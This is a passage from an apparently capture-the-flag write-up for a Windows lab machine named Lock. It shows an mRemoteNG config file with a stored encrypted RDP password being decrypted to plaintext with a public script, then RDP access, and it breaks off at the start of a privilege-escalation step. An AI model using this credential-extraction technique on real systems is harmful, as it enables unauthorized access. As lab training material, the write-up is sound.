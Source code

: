 ```bash
d-r---        12/28/2023   5:58 AM                Links                                                                
-a----        12/28/2023   5:58 AM            208 Bing.url                                                             


    Directory: C:\Users\ellen.freeman\Links


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----        12/28/2023   5:58 AM            518 Desktop.lnk                                                          
-a----        12/28/2023   5:58 AM            979 Downloads.lnk                                                        


PS C:\Users\ellen.freeman> 
```
Inside the config file we find an encrypted password for Gale.Dekarios

```powershell
PS C:\Users\ellen.freeman\Documents> cat config.xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
    <Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="a179606a-a854-48a6-9baa-491d8eb3bddc" Username="Gale.Dekarios" Domain="" Password="TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==" Hostname="Lock" Protocol="RDP"
----<SNIP>----
```
Searching for a way to decrypt mRemoteNG passwords, I found this GitHub repository:
https://github.com/gquere/mRemoteNG_password_decrypt

We just need to pass the config file to decrypt the password.

```bash
└─$ python3 mremoteng_decrypt.py config.xml 
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: ty8wnW9qCKDosXo6
```
Finally, we can RDP to Lock and grab the user flag

<img width="1788" height="1398" alt="2025-08-24 151046" src="https://github.com/user-attachments/assets/d06a313f-8571-47a2-82b4-c350c00b406b" />

## Privilege Escalation
I noticed PDF24 Creator installed; checking the version, it’s 11.15.1.
